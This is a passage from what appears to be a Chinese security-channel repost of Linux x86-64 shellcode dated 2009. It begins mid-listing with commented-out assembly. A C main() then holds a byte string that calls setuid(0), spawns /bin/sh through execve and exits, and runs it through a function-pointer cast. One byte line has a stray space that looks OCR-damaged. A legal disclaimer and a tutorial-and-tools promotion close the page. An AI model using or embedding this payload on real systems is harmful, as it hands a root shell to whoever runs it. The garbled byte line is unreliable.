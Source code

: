       16.         "pushq  %rdi; \n\t"
    
      17.         "movq   %rsp,%rsi; \n\t"
    
      18.         "mov    $0x3b,%al; \n\t"
    
      19.         "syscall ; \n\t"
    
      20.         "pushq  $0x1 ; \n\t"
    
      21.         "pop    %rdi ; \n\t"
    
      22.         "pushq  $0x3c ; \n\t"
    
      23.         "pop    %rax ; \n\t"
    
      24.         "syscall  ; \n\t"
    
      25. );
    
      26. }
    
      27. */
    
      28. main() {
    
      29.         char shellcode[] =
    
      30.         "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62"
    
      31.         "\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31"
    
      32.         "\xc0\x50\x57\x48\x89\xe6 \xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c"
    
      33.         "\x58\x0f\x05";
    
      34.         (*(void (*)()) shellcode)();
    
      35. }
    
      36.   37. 2009-05-14
    
      38. evil.xi4oyu
    
    
    

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175321.png)  

 **没看够~？欢迎关注！**

  

  

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175308.png)
